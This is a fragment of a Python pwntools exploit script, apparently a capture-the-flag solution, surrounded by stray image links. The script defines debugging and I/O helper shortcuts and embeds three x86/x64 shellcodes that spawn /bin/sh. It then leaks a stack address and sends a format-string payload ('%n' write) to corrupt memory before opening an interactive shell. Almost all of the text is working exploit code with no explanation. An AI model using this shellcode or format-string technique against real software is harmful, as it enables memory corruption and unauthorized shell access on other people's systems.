 ```
            debug_str+='b *{}\n'.format(hex(text_base+i))
        gdb.attach(p,debug_str)
    else:
        for i in addr:
            debug_str+='b *{}\n'.format(hex(i))
        gdb.attach(p,debug_str)
 
def dbg():
    gdb.attach(p)
#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))        #in case that data is an int
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
it      = lambda                    :p.interactive()
uu32    = lambda data   :u32(data.ljust(4, '\0'))
uu64    = lambda data   :u64(data.ljust(8, '\0'))
bp      = lambda bkp                :pdbg.bp(bkp)
li      = lambda str1,data1         :log.success(str1+'========>'+hex(data1))
 
 
def dbgc(addr):
    gdb.attach(p,"b*" + hex(addr) +"\n c")
 
def lg(s,addr):
    print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))
 
sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------
 
ru("0x")
stack = int(r(12),16)
#lg('stack',stack)#print
#log.info(hex(stack))
print hex(stack)
 
pay = "%32c%9$n"+p64(stack)
sl(pay)
sleep(0.1)
it()
```  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8G8Afib4u3yW6GmribqAjIQ9TfoCWUdtX2W2B5r8ibePRwbRM6V4ZWfa93PbDYglw9NqAqzibc5X8aaww/640?wx_fmt=png "")  
  